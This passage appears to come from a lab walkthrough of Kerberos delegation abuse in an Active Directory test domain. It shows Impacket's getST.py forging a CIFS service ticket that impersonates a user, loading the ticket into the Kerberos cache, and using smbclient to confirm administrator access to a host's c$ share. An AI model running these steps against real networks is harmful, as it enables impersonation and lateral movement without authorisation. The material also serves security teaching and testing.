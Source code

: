 *Common Internet File System (CIFS) is a network filesystem protocol used for providing shared access to files and printers between machines on the network.*

    getST.py -spn cifs/ws02.lab.local lab.local/ULRRDUA\$ -impersonate lkys

![](../assets/img/relaydelegation/2019-04-14-15-09-39.png)

Now we should be able to use the `lkys.ccache` cached ticket to authenticate to the target machine.

We import the ticket from file into the Kerberos cache on our attacker box.

    export KRB5CCNAME=lkys.ccache

![](../assets/img/relaydelegation/2019-04-14-15-10-52.png)

## Verifying access

Before we get into command execution, we verify that we have read access to the c$ share. This is a common way to check if we have administrator privileges on a remote host.

We authenticate to SMB on `WS02` with the ticket using `smbclient` with the `-k` parameter that indicates we want to use a Kerberos ticket and **not** NTLM authentication with username and password.

    smbclient -k //ws02.lab.local/c$

![](../assets/img/relaydelegation/2019-04-14-15-12-20.png)

